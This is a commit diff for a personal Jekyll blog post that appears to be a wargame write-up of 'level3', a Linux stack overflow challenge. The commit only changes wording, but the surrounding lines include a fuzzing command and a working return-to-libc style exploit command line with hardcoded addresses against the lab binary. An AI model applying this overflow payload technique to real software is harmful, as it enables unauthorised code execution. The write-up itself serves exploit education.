

Before and after one commit to KevinCarroll7737/kevincarroll7737.github.io, a Jekyll site: the page built from _posts/2019-08-23-R0-Pwnage-Linux-level3.markdown, in a window 1280 px wide and 900 px high, scrolled down 2765 px. Shown: the whole window, without its empty margins (203-1076 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Updated typo

````diff
--- a/_posts/2019-08-23-R0-Pwnage-Linux-level3.markdown
+++ b/_posts/2019-08-23-R0-Pwnage-Linux-level3.markdown
@@ -149,7 +149,7 @@ Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
 0xffffda6c:	0x42424242	0x00000041	0x00000000	0x00000000 <---------- *
 ```
 
-Since `buf2` has to be exactly 128-byte w/o null char (e.g.: bigger values are just going to be ignored by `strncpy` function), let's play w/ `buf1` and try to some value to make crash the program.
+Since `buf2` has to be exactly 128-byte w/o null char (e.g.: bigger values are just going to be ignored by `strncpy` function), let's play w/ `buf1` and fuzz values to crash the program.
 
 ```bash
 level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 69'` `python -c 'print "\x42" * 128'`
@@ -171,7 +171,7 @@ warning: Unable to access 16000 bytes of target memory at 0xf7fcedb3, halting se
 1 pattern found.
 ```
 
-Exploit and grab the flag!
+Exploit this binary! ;)
 
 ```bash
 level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 64 + "\x40\x69\xe5\xf7"+ "CCCC"  + "\x2b\x50\xf7\xf7"'` `python -c 'print "\x42" * 128'`
````
